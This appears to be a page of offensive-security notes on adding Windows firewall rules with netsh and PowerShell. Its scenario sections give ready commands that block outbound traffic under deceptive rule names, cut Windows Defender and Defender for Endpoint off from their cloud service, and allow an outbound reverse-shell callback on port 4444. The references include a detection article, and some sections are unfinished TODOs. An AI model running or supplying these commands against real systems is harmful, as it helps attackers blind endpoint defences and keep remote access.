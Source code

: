 # Add Firewall Rule

## 01 - Usage

### 1.1 - Command Prompt

> [!NOTE] Elevated Privileges is required
> Using `netsh` requires administrative rights when adding firewall rules.

You can remotely add a firewall rule communicating through NETBIOS.

```
C:\> netsh [-r <IP>] advfirewall firewall add rule name="<rule_name>" dir=<in | out> action=<allow | block | bypass> protocol=<any | tcp | udp | icmpv4 | icmpv6> localport=<PORT>
```

### 1.2 - Powershell

```
PS C:\> New-NetFirewallRule -DisplayName "<rule_name>" -Direction <Inbound | Outbound> -LocalPort <PORT> -Action <NotConfigured | Allow | Block> -Protocol <TCP | UDP | ICMPV4 | ICMPV6>
```

## 02 - Scenarios

### 2.1 - Block Outbound Packets

#### 2.1.1 - Command Prompt

- Limit certain UDP outbound packets for NETBIOS fingerprinting

```
C:\> netsh advfirewall firewall add rule name="Load Balancer" protocol=udp dir=out localport=137 action=block
```

- Limit certain UDP outbound packets for DNS lookup fingerprinting

```
C:\> netsh advfirewall firewall add rule name="Endpoint Response Agent" protocol=udp dir=out localport=53 action=block
```

#### 2.1.2 - Powershell

- Limit certain UDP outbound packets for NETBIOS fingerprinting

```
PS C:\> New-NetFirewallRule -DisplayName "Load Balancer" -Direction Outbound -LocalPort 137 -Action Block -Protocol UDP
```

- Limit certain UDP outbound packets for DNS lookup fingerprinting

```
PS C:\> New-NetFirewallRule -DisplayName "Endpoint Response Agent" -Direction Outbound -LocalPort 53 -Action Block -Protocol UDP
```

### 2.2 - Block Security Endpoints

#### 2.2.1 - Windows Defender

- Command Prompt

```
C:\> netsh advfirewall firewall add rule name="Block 443 MsMpEng" dir=outbound protocol=TCP action=block service=WinDefend remoteport=443

C:\> netsh advfirewall firewall show rule name="Block 443 MsMpEng"
```

- Powershell

```powershell
PS C:\> New-NetFirewallRule -DisplayName "Block 443 MsMpEng" -Name "Block 443 MsMpEng" -Direction Outbound -Service WinDefend -Enabled True -RemotePort 443 -Protocol TCP -Action Block

PS C:\> Get-NetFirewallRule -DisplayName "Block 443 MsMpEng"
```

#### 2.2.2 - Advanced Threat Protection

- Command Prompt

```
C:\> netsh advfirewall firewall add rule name="Block 443 SenseCncProxy" dir=outbound program="%ProgramFiles%\Windows Defender Advanced Threat Protection\SenseCncProxy.exe" remoteport=443 protocol=TCP action=block

C:\> netsh advfirewall firewall add rule name="Block 443 MsSense" dir=outbound program="%ProgramFiles%\Windows Defender Advanced Threat Protection\MsSense.exe" remoteport=443 protocol=TCP action=block
```

- Powershell

```
PS C:\> New-NetFirewallRule -DisplayName "Block 443 SenseCncProxy" -Name "Block 443 SenseCncProxy" -Direction Outbound -Program "%ProgramFiles%\Windows Defender Advanced Threat Protection\SenseCncProxy.exe" -RemotePort 443 -Protocol TCP -Action Block

PS C:\> New-NetFirewallRule -DisplayName "Block 443 MsSense" -Name "Block 443 MsSense" -Direction Outbound -Program "%ProgramFiles%\Windows Defender Advanced Threat Protection\MsSense.exe" -RemotePort 443 -Protocol TCP -Action Block
```

#### 2.2.3 - Third Party

TODO: Provide other examples from different endpoints

### 2.3 - Allow programs with incoming/outgoing connection

TODO: Provide examples such as in a restricted network by adding a firewall rule to establish a callback shell connection

#### 2.3.1 - Callback Reverse Shell

TODO: Test this

- Command Prompt

```
C:\> netsh advfirewall firewall add rule name="Callback Reverse Shell" profile=domain,private,public remoteport=4444 protocol=tcp enable=yes dir=out program="C:\path\to\shell.exe" action=allow
```

- Powershell

```
PS C:\> New-NetFirewallRule -Name "Callback Reverse Shell" -Profile "Domain,Private,Public" -Protocol TCP -Enabled True -Direction Outbound -RemotePort 4444 -Program "C:\path\to\shell.exe" -Action Allow
```

#### 2.3.2 - Callback Bind Shell

---
## References

- [Silencing Microsoft Defender for Endpoint using firewall rules](https://medium.com/csis-techblog/silencing-microsoft-defender-for-endpoint-using-firewall-rules-3839a8bf8d18)

- [Detect Addition of New Firewall Rules in Defender Firewall](https://bhabeshraj.com/post/detect-addition-of-new-firewall-rules-in-defender-firewall/)

- [Ivan's IT learning blog: Installing Reverse Shell Backdoors on Windows Systems](https://ivanitlearning.wordpress.com/2019/06/09/installing-reverse-shell-backdoors-on-windows-systems/)